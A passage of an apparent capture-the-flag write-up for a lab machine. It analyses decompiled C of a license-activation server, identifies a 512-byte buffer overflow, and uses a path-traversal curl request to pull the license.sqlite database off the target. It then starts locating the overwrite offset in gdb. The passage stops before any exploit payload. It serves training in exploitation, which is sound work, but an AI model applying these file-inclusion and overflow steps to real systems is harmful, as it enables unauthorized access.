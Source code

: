 ```c
  iVar1 = sqlite3_reset(stmt);
  if (iVar1 != 0) {
    pcVar3 = (char *)sqlite3_errmsg(db);
    error(pcVar3);
  }
  iVar1 = sqlite3_finalize(stmt);
  if (iVar1 != 0) {
    pcVar3 = (char *)sqlite3_errmsg(db);
    error(pcVar3);
  }
  iVar1 = sqlite3_close(db);
  if (iVar1 != 0) {
    pcVar3 = (char *)sqlite3_errmsg(db);
    error(pcVar3);
  }
  printf("[+] activated license: %s\n",buffer);
  return;
}
```

Based on the source code analysis, the first thing that called my attention was the 512 bytes buffer variable which matches with the website description of the license file size expected.
The logic in the `activate_license` code seems to be:
- Checks if the file size is valid and store it into a variable `msglen`
- Reads `msglen` amount of bytes from the file contents and allocate into the `buffer`

If we could manipulate the file size to something bigger then 512(buffer size) we could potentially overwrite some addresses. Here we have a buffer overflow.

Continuing in the code logic, we see that it is writing the file contents to a database file.
```c
iVar1 = sqlite3_open("license.sqlite",&db);
```

Using the LFI we can find the database file `license.sqlite`. Lets download to analyse it:
```bash
$ curl 10.129.196.121/index.php?page=../license.sqlite -o license.sqlite
```

Looking at the db file locally using `sqlitebrowser` we see one entry of 512 A's:
![[retired/images/image2.png]]
It is writing 512 bytes to the database file, probably if we send 512+ bytes, the extra length will start to overwrite the memory address.

## Buffer Overflow
What do we know so far?
- Buffer is 512+ bytes
- Based on an analysis of `activate_license.php` for a valid POST request we need to send the `license_size`  as 32 bit, big endian byte order before the content.

### Finding the RIP
To find the RIP (rewrite point) we will create a cyclic pattern to identify how many characters we need to cause the buffer overflow.
Lets run the binary using gdb and start creating an exploit skeleton:
```bash
$ gdb activate_license
pwndbg> r 1337                                                            
Starting program: /home/caue/htb/retired/activate/activate_license 1337   
[Thread debugging using libthread_db enabled]                             
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[+] starting server listening on port 1337                                                            
[+] listening ...
```
